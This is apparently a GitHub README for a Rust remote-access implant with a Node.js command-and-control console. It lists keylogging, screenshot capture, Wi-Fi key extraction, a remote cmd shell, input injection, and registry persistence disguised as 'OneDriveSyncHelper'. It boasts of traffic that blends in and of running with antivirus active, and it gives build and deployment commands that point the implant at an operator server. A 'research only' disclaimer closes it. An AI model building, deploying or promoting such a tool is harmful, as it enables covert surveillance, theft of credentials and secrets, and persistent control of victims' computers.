


# SimpleAF

Minimal Rust implant with a Node.js operator console, built for security research in authorized lab environments. HTTP command-and-control with per-session random tokens; the operator UI is a single-page terminal.


*Live session - `tasklist` output from the implant.*

## Features

- Interactive `cmd` shell with per-session working-directory tracking
- Keylogger with active-window titles
- Screenshot capture (PowerShell + GDI, returned as Base64)
- Wi-Fi profile and key listing (`netsh wlan`)
- Mouse and keyboard control (move, click, type)
- Registry persistence: `HKCU\Software\Microsoft\Windows\CurrentVersion\Run` as `OneDriveSyncHelper`
- Plain HTTP polling so tasking blends with normal web traffic

## Requirements

| Component | Notes |
|-----------|-------|
| Windows 10 / 11 | implant target |
| Rust 1.75+ | `rustup` - MSVC or MinGW toolchain, for the implant |
| Node.js 18+ | with npm, for the operator console |

## Build

```bash
cargo build --release
```

Output: `target\release\simpleaf-implant.exe`

## Run

**1. Operator console** (your machine):

```bash
npm install
node server.js
```

Listens on port `3307` (override with the `PORT` env var). Open `http://localhost:3307`.

**2. Implant** (lab target):

```bat
set C2_SERVER=http://<console-ip>:3307
simpleaf-implant.exe
```

Defaults to `http://127.0.0.1:3307` when `C2_SERVER` is not set. The session appears in the console sidebar within a few seconds.

## Operator controls

Toolbar and quick actions: **Screenshot**, **Keylog** (start/stop), **Shell**, `whoami`, `ipconfig /all`, `net user`, `tasklist`, `netstat -ano`, `systeminfo`, plus mouse move/click and keystroke injection. Type any `cmd` command into the terminal bar.

## Persistence cleanup (lab)

```bat
reg delete "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v OneDriveSyncHelper /f
```

Same implant running while Kaspersky Endpoint (fully updated, cloud-connected) is active on the host:



**Educational / research purposes only. Use only on systems you own or have explicit written permission to test.**
